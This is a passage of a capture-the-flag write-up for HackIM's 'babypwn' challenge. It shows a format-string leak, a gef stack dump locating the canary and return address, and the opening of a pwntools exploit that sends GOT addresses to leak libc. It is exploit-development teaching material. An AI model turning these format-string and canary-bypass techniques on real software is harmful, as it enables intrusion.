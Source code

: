 
As can be seen at 0x00007fffffffe3e8, the stack canary is still untouched, and there is a break between 0x16 and 0x19. Apparently, scanf("%d") ignores a "-" but does not cause the program to terminate or throw any errors. With this knowledge, we can put the exploit plan into action!

## The Execution

By running with a name of "%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x", I am able to determine the offset in the stack of my coins.

```
Tressure Box: 0.f7dd3790.71.0.f7fe0700.1.602010.1.3.5.7.9.b.d created!
```

In this return, we can see that the values of the coins that I input, "1 2 3 4 5 6 7 ...." start to appear at the 8th value on the stack. This show's me two things.

* I can put global offset table addresses as the coins and leak the libc addresses that correspond by using %8$s..%9$s..%10$s".
* Every other coin is displayed by this format string, reminding me that the coins are input as 32 bit integers while the stack uses 64 bit alignment. This means that I may have to input the global offset table values as two 32 bit segments.

```
gef➤  telescope $rsp 20
0x00007fffffffe380│+0x00: 0xffff000000000001     ← $rsp
0x00007fffffffe388│+0x08: 0x0000000000602010  →  "Tressure Box: ans created!"
0x00007fffffffe390│+0x10: 0x0000000200000001
0x00007fffffffe398│+0x18: 0x0000000400000003
0x00007fffffffe3a0│+0x20: 0x0000000600000005
0x00007fffffffe3a8│+0x28: 0x0000000800000007
0x00007fffffffe3b0│+0x30: 0x0000000a00000009
0x00007fffffffe3b8│+0x38: 0x0000000000400a2d  →  <__libc_csu_init+77> add rbx, 0x1
0x00007fffffffe3c0│+0x40: 0x00007fffffffe3ee  →  0x0000004009e08476
0x00007fffffffe3c8│+0x48: 0x0000000000000000
0x00007fffffffe3d0│+0x50: 0x00000000004009e0  →  <__libc_csu_init+0> push r15
0x00007fffffffe3d8│+0x58: 0x0000000000400710  →  <_start+0> xor ebp, ebp
0x00007fffffffe3e0│+0x60: 0x00007fffffff0079  →  0x0000000000000000
0x00007fffffffe3e8│+0x68: 0x847650e3e6aefe00
0x00007fffffffe3f0│+0x70: 0x00000000004009e0  →  <__libc_csu_init+0> push r15    ← $rbp
0x00007fffffffe3f8│+0x78: 0x00007ffff7a2d830  →  <__libc_start_main+240> mov edi, eax
0x00007fffffffe400│+0x80: 0x0000000000000001
0x00007fffffffe408│+0x88: 0x00007fffffffe4d8  →  0x00007fffffffe72a  →  "/home/vagrant/pwning/hackim/babypwn/challenge"
0x00007fffffffe410│+0x90: 0x00000001f7ffcca0
0x00007fffffffe418│+0x98: 0x0000000000400806  →  <main+0> push rbp
```

By looking at the stack, I can tell that I will input 22 coins before reaching the cookie. After the cookie, there is another 64 bit value for libc_csu_init which I can overwrite with anything before reaching libc_start_main. Here, at 0x00007fffffffe3f8, I will put the pointer to the main function and start again.

```
free_got = 0x600FA8
puts_got = 0x600FB0
setbuf_got = 0x600FC0
printf_got = 0x600FC8
main = 0x400806

target.sendline(str(free_got))
target.sendline(str(0))
target.sendline(str(puts_got))
target.sendline(str(0))
target.sendline(str(setbuf_got))
target.sendline(str(0))
target.sendline(str(printf_got))
```